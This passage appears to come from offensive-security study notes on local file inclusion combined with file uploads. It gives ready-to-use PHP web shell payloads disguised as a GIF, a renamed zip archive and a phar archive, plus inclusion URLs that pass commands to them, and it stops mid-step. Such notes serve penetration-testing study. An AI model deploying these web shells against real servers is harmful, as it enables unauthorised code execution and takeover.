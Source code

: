 For LFI to work in file uploads, the file upload form do not need to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` [capabilities](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FRead%20vs%20Execute), then the code within the file we upload will get executed if we include it, regardless of the file extension or file type.

For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.
## Crafting Malicious Image
The first step is to create a malicious image file containing a shell code that still looks and works as an image. The file should still include the image magic bytes at the beginning of the file content (i.e `GIF8`), just in case the upload form checks for both the extension and content type as well. For example:
```bash
echo 'GIF8<?php system($_GET["cmd"]) ?>' > shell.gif
```
This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

Once the malicious file has been uploaded, all we need to do is include it through the LFI vulnerability. To do this, we need to know the path of the uploaded file. In most cases, especially with images, we can get its path from inspecting the source code after uploading the image.
```txt
http://target-website.com/?language=./images/shell.gif&cmd=id
```
## Zip Upload
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:
```bash
echo '<?php system($_GET["cmd"]) ?>' > shell.php && zip shell.jpg shell.php
```
> Note: Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we have uploaded `shell.jpg`, we can include it with the `zip` wrapper as follows:
```txt
http://target-website.com/?language=zip://./images/shell.jpg#shell.php&cmd=id
```
## Phar Upload
Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
```php
<?php

$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
Next we will combine this script into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with:
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
Now, we should have a `phar` file called `shell.jpg`, next 